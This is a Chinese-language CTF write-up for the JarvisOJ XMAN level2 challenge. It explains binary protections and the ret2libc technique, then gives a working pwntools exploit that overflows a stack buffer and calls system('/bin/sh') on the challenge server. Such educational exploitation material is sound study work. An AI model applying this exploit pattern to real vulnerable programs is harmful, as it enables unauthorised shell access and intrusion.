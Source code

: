 ```yaml
---
layout: post
title: 「JarvisOJ」XMANlevel2题解
date: 2018-08-2 10:24:00
author:     "许大仙"
tags:
    - CTF
---
```


day3：XMANlevel2


## 一、peda中checksec命令 ##

![XMANlevel2的保护机制情况](/assets/img/checksec2.jpg)

- CANARY：(金丝雀值，指的是矿工曾利用金丝雀来确认是否有气体泄漏，如果金丝雀因为气体泄漏而中毒死亡，可以给矿工预警)，**类似于windows GS技术**，当栈溢出发生时，**canary值将在已保存的指令指针被重写前先改变。[canary放在栈中返回地址前，执行ret前检测canary的值]**系统检测这个值是否改变[ret前]，**若栈溢出发生了，canary修改，那么存储返回地址处的指令指针可能也被修改了，因此不能安全返回，函数会调用__stack_chk_fail函数。这个函数会丢出一个错误然后退出进程。**
	- 缺点：仅保护了sip，未保护应用变量，覆写GOT绕过。 

- FORTIFY:Compile Time Buffer Checks，确定函数执行栈的大小，以避免缓冲区溢出攻击。 

- NX:**No Execute.**现代处理器支持一种称为NX的特性使得系统控制各部分的执行的内存。**即程序栈不可执行。 **
- PIE:**随机化**加载程序的内存地址。 
- RELRO：**RELocation Read-Only (RELRO) 重定位只读**，它能够**保护库函数的调用不受攻击者重定向**的影响。 

## 二、level2解题思路 ##
当遇到NX开启，栈不可执行时，首先查看有没有开启ASLR，即PIE.[对本机查看aslr只是在当前机器下栈随机化情况].checksec观察到PIE: No PIE[没有装载地址随机化]。

说明可以使用ret2libc技术。[如果出现栈随机化+栈不可执行则要使用ROP技术]

ret2libc技术的核心：由于栈不可随机化，那么所有库的位置都是固定的，对于任何可执行文件都会默认自动使用引入一些标准库，比如libc库，libc库中存在system函数[即fork+execve+waitpid，可以开启一个子进程执行命令。]的位置也是固定的，在gdb下使用b main+p system就可得到system的起始地址。在退栈时设置返回地址为system函数首地址，再提供例如“/bin/sh”等实现功能的所需参数即可。

栈布局：

![ret2libc](/assets/img/ret.jpg)

注：exit()是为了正常退出，不会因为调用者栈帧被破坏，报错，影响退出过程[退栈返回地址返回到system，调用system时运行push ebp指令，旧ebp 入栈到Address of system()的位置，ebp指向Address of system()的位置，所以返回地址ebp+4即为Address of exit()[在system执行完，ret的时候，会返回到exit]，而ebp+8是第一个入口参数，恰好为“/bin/sh”的指针/存储地址，由system使用]

具体参考：

- https://blog.csdn.net/linyt/article/details/43643499
- https://www.shellblade.net/docs/ret2libc.pdf ——强烈建议阅读此篇,很清晰讲述了全过程（注意9-11页的阐述）
- http://www.mamicode.com/info-detail-2277563.html


![IDA中的String window--/bin/sh](/assets/img/IDA_bin.jpg)

将Level2拖入IDA，通过shift+F12搜索字符串，会发现/bin/sh[很奇怪的是我在win上用IDA能在level2中搜索到/bin/sh，但是在ubuntu IDA却搜不到，在python中用pwn的ELF模块的search函数能搜索到，说明确实有的]


![system函数](/assets/img/system.jpg)

在IDA左侧的函数列表中也发现了system函数。


因此可以构造system("/bin/sh")，产生shell。

payload = 'a' * (0x88 + 0x4)[任意覆盖] + system函数首地址 + 任意4字节(比如0xdeadbeef或exit函数首地址……) + "/bin/sh"字符串地址

![payload执行流程](/assets/img/process2.jpg)

## 三、解题步骤 ##


     1 #!/usr/bin/env python
     2 # -*- coding: utf-8 -*-
     3 
     4 
     5 from pwn import *
     6 context(arch="i386",os="linux",log_level = 'debug')
     7 
     8 elf = ELF('./level2')  #获得level2文件的ELF
     9 sys_addr = elf.symbols['system'] #system函数地址
    10 sh_addr = elf.search('/bin/sh').next() #搜索/bin/sh字符串地址
    11 
    12 payload = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xdeadbeef) + p32(sh_addr) #p32将0xdeadbeef转化为字符串
       #0xdeadbeef为system("/bin/sh")执行后的返回地址，可以随便指定，比如exit()函数的返回地址
    13 #  io = process('./level2')
    14 io = remote('pwn2.jarvisoj.com', 9878)
    15 io.sendlineafter("Input:\n", payload) #在收到Input:\n之后才发出payload
    16 
    17 io.interactive()  #交互模式
    18 io.close()


![执行脚本](/assets/img/level2_py.jpg)

![运行情况](/assets/img/level2.jpg)





## 四、system补充 ##

System与execev的区别: system =fork+execve+waitpid,是在单独的进程中执行命令，完了还会回到你的程序中【像是当前父进程中断了，先在子进程中运行你的程序/命令，等待子进程运行完成才继续运行父进程中system之后的代码[子进程还是复制了父进程的栈等内存]】。而exec函数是直接在你的进程中执行新的程序，新的程序会把你的程序覆盖，除非调用出错，否则你再也回不到exec后面的代码，就是说你的程序就变成了exec调用的那个程序了。
